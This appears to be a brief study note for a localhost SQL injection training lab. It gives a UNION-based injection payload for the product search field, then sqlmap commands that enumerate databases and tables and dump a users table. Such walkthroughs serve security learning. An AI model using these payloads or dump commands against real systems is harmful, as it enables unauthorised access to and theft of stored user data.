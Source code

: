 Lab: http://localhost/labs/i0x03.php

Injection point is *product* search.

PoC payload:
`' UNION select null,null,null,null#`

# SQLmap

Store the product search POST request in the file *req.txt*.

Enum databases:
```bash
sqlmap -r req.txt -p product --dbs
```

![[Pasted image 20240326130349.png]]

Enum tables from database *peh-labs*:
```bash
sqlmap -r req.txt -p product -D peh-labs --tables
```

![[Pasted image 20240326130506.png]]

Dump table *injection0x03_users*:
```bash
sqlmap -r req.txt -p product -D peh-labs -T injection0x03_users --dump
```

![[Pasted image 20240326130738.png]]